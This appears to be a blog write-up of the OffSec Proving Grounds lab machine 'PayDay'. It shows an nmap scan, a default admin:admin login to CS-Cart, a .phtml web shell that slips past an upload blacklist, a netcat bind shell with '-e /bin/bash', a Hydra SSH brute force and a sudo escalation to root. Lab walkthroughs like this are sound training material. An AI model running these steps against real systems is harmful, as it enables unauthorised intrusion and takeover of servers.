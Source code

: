 ```yaml
---
layout: post
title: PG | PayDay
subtitle: Things normally go smooth on payday.
thumbnail-img: /assets/img/OffSec.png
---
```


# Nmap Scan Results

~~~shell
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-29 15:27 UTC
Nmap scan report for 192.168.182.39
Host is up (0.017s latency).
Not shown: 65527 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 4.6p1 Debian 5build1 (protocol 2.0)
| ssh-hostkey: 
|   1024 f3:6e:87:04:ea:2d:b3:60:ff:42:ad:26:67:17:94:d5 (DSA)
|_  2048 bb:03:ce:ed:13:f1:9a:9e:36:03:e2:af:ca:b2:35:04 (RSA)
80/tcp  open  http        Apache httpd 2.2.4 ((Ubuntu) PHP/5.2.3-1ubuntu6)
|_http-server-header: Apache/2.2.4 (Ubuntu) PHP/5.2.3-1ubuntu6
|_http-title: CS-Cart. Powerful PHP shopping cart software
110/tcp open  pop3        Dovecot pop3d
| ssl-cert: Subject: commonName=ubuntu01/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX
| Not valid before: 2008-04-25T02:02:48
|_Not valid after:  2008-05-25T02:02:48
|_ssl-date: 2023-10-29T15:28:08+00:00; +7s from scanner time.
|_pop3-capabilities: STLS PIPELINING CAPA SASL UIDL RESP-CODES TOP
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|_    SSL2_RC4_128_WITH_MD5
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: MSHOME)
143/tcp open  imap        Dovecot imapd
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|_    SSL2_RC4_128_WITH_MD5
|_ssl-date: 2023-10-29T15:28:08+00:00; +7s from scanner time.
| ssl-cert: Subject: commonName=ubuntu01/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX
| Not valid before: 2008-04-25T02:02:48
|_Not valid after:  2008-05-25T02:02:48
|_imap-capabilities: IMAP4rev1 completed IDLE LOGIN-REFERRALS LITERAL+ THREAD=REFERENCES SASL-IR OK Capability LOGINDISABLEDA0001 STARTTLS NAMESPACE UNSELECT CHILDREN SORT MULTIAPPEND
V      Samba smbd 3.0.26a (workgroup: MSHOME)
993/tcp open  ssl/imap    Dovecot imapd
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|_    SSL2_RC4_128_WITH_MD5
|_ssl-date: 2023-10-29T15:28:08+00:00; +8s from scanner time.
| ssl-cert: Subject: commonName=ubuntu01/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX
| Not valid before: 2008-04-25T02:02:48
|_Not valid after:  2008-05-25T02:02:48
|_imap-capabilities: IMAP4rev1 IDLE LOGIN-REFERRALS LITERAL+ THREAD=REFERENCES SASL-IR OK completed Capability AUTH=PLAINA0001 NAMESPACE UNSELECT CHILDREN SORT MULTIAPPEND
995/tcp open  ssl/pop3    Dovecot pop3d
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|_    SSL2_RC4_128_WITH_MD5
|_pop3-capabilities: SASL(PLAIN) PIPELINING CAPA USER UIDL RESP-CODES TOP
| ssl-cert: Subject: commonName=ubuntu01/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX
| Not valid before: 2008-04-25T02:02:48
|_Not valid after:  2008-05-25T02:02:48
|_ssl-date: 2023-10-29T15:28:08+00:00; +8s from scanner time.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.26a)
|   Computer name: payday
|   NetBIOS computer name: 
|   Domain name: 
|   FQDN: payday
|_  System time: 2023-10-29T11:28:05-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 40m07s, deviation: 1h38m00s, median: 6s
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.40 seconds
~~~

## HTTP (TCP/80)

The web server on port 80 is hosting a CS-Cart webpage

![PayDay](/assets/img/PayDayPG(1).png)

I started enumeration by running a gobuster sub-directory scan and found a /admin.php page

![PayDay](/assets/img/PayDayPG(2).png)

I tried using the default credentials of admin:admin and it worked!

![PayDay](/assets/img/PayDayPG(3).png)

After navigating the admin panel I found a upload file option that saves the file locally on the target host and is displayed on the website via the 'Current path: /skins/'

At first I attempted to upload a PHP web shell file but the .php extension was blacklisted, I changed the shell extension to .phtml which is compatible with running php code

![PayDay](/assets/img/PayDayPG(7).png)

![PayDay](/assets/img/PayDayPG(4).png)

I then ran an 'id' command at http://192.168.182.39/skins/shell.phtml to test the web shell and it succeeded!

![PayDay](/assets/img/PayDayPG(5).png)

To get a stable shell I created a netcat listener on the target via the web shell

~~~shell
http://192.168.182.39/skins/shell.phtml?cmd=nc%20-nvlp%204444%20-e%20/bin/bash
~~~

Then connected to the listener via my attack host

~~~shell
┌──(kali㉿kali)-[~/Desktop/PayDay]
└─$ nc -nv 192.168.182.39 4444
(UNKNOWN) [192.168.182.39] 4444 (?) open
whoami
www-data
python -c 'import pty; pty.spawn("/bin/sh")'
$ 
~~~

I ran a bruteforce via SSH on the user account 'patrick' using Hydra and found valid credentials of patrick:patrick

The server uses legacy SSH key algorithms ssh-rsa and ssh-dss so you may need to enable [SSH Wide Compatibility Mode](https://www.youtube.com/watch?v=fKVLVNaVXF0) to run the Hydra brute force

~~~shell
┌──(kali㉿kali)-[~/Desktop/PayDay]
└─$ hydra -f -l patrick -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt ssh://192.168.182.39 -t 10
~~~

![PayDay](/assets/img/PayDayPG(6).png)

~~~shell
┌──(kali㉿kali)-[~/Desktop/PayDay]
└─$ ssh patrick@192.168.182.39                                                                                                                         
The authenticity of host '192.168.182.39 (192.168.182.39)' can't be established.
DSA key fingerprint is SHA256:UtI16p2JU9a/SuF1RZ3eUAYqCLBtgOewIPtIdm7kNNA.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.182.39' (DSA) to the list of known hosts.
patrick@192.168.182.39's password: 
Linux payday 2.6.22-14-server #1 SMP Sun Oct 14 23:34:23 GMT 2007 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.
patrick@payday:~$ 

I checked what privileges the patrick user has and it had full sudo rights!

patrick@payday:~$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for patrick:
User patrick may run the following commands on this host:
    (ALL) ALL
~~~

I finished by upgrading the shell to root

~~~shell
patrick@payday:~$ sudo su
root@payday:/home/patrick# whoami
root
~~~